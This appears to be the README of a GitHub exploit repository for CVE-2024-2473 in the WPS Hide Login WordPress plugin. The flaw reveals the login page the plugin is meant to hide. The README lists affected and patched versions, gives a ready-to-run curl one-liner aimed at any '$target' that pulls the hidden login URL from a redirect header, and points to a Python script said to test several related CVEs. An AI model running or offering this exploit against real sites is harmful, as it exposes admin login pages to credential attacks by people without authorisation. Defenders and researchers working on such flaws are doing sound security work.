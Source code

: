 # WPS Hide Login <= 1.9.15.2 - Login Page disclosure (CVE-2024-2473)

Disclose login page hidden by [WPS-Hide-Login WordPress plugin](https://wordpress.org/plugins/wps-hide-login/).

Affected versions: 1.5.1 to 1.9.15.2

Patched version: 1.9.16

## Exploitation cURL command

```bash
curl -X POST -sk https://$target/wp-admin/?action=postpass -d 'post_password=' | grep -i location | cut -d ' ' -f 2- | cut -d '?' -f 1
```

## Exploitation Python script

This script include tests for other CVEs on [WPS-Hide-Login WordPress plugin](https://wordpress.org/plugins/wps-hide-login/).

```bash
./show-login.py -h
```

## References

- [CVE-2024-2473](https://www.wordfence.com/threat-intel/vulnerabilities/id/fd21c7d3-a5f1-4c3a-b6ab-0a979f070a62)
- [CVE-2021-24917](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-190-hidden-login-page-location-disclosure)
- [CVE-2019-15826](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-actionrp)
- [CVE-2019-15825](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-referer-header)
- [CVE-2019-15824](https://wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-actionconfirmaction)
- [CVE-2019-15823](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-adminhash)
